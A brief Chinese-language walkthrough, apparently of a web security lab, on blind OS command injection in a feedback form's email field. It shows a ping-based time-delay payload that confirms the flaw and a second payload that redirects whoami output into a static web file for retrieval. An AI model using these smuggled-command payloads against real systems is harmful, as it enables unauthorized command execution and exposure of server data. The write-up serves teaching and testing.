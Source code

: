 提交反馈处存在os命令注入



验证paylaod:

```javascript
email=||ping+-c+10+127.0.0.1+||
```



延时10秒返回参数，说明漏洞存在



该漏洞无法回显命令执行信息，但是可以利用输出重定向将敏感信息输出到静态文件中

payload:

```javascript
email=||+whoami+>+/var/www/images/output.txt+||
```



访问静态文件即可得到whoami信息